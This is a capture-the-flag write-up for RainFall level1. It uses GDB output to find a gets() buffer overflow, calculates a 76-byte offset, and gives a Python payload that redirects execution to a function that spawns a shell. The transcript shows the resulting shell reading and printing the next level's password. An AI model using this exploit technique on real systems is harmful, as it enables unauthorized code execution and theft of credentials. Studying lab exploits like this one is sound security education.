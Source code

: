 # Level1

## Exploring the binary
```shell
level1@RainFall:~$ ./level1

level1@RainFall:~$ ./level1
phantom
```
After execution, the program waits for input and then terminates.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```
The main functions calls <code>gets()</code> functions which reads the input. No other functions are called, so we explore out options.
```shell
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```
There is a function <code>run()</code> which could potentially be our way to level2.
```shell
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```
Call to <code>system()</code> supports this theory. We can use the common buffer overflow exploit to access the <code>run()</code> function and trigger the <code>/bin/sh</code> of level2.

## Buffer overrun attack
To find the offset, we can use an online tool ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)) or a custom python script.
``` shell
level1@RainFall:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa...Ag2Ag3Ag4Ag5Ag" > /tmp/pattern
level1@RainFall:~$ gdb ./level1
(gdb) run < /tmp/pattern
Starting program: /home/user/level1/level1 < /tmp/pattern
```
This way, we find out that <u>the offset is 76</u>. By replacing the return address value with the memory address of the <code>run()</code> function, we can manipulate the program flow to ensure its execution.
``` shell
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```
To ensure that the memory address is represented correctly in the payload, we need to use the little-endian format:
``` shell
\x44\x84\x04\x08
```
When using Python, we can achieve the same result by reversing the order of the bytes:
``` shell
\x08\x04\x84\x44[::-1]
```

## Exploit
``` shell
level1@RainFall:~$ python -c 'print "F" * 76 + "\x08\x04\x84\x44"[::-1]' > /tmp/flag1
level1@RainFall:~$ cat /tmp/flag1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
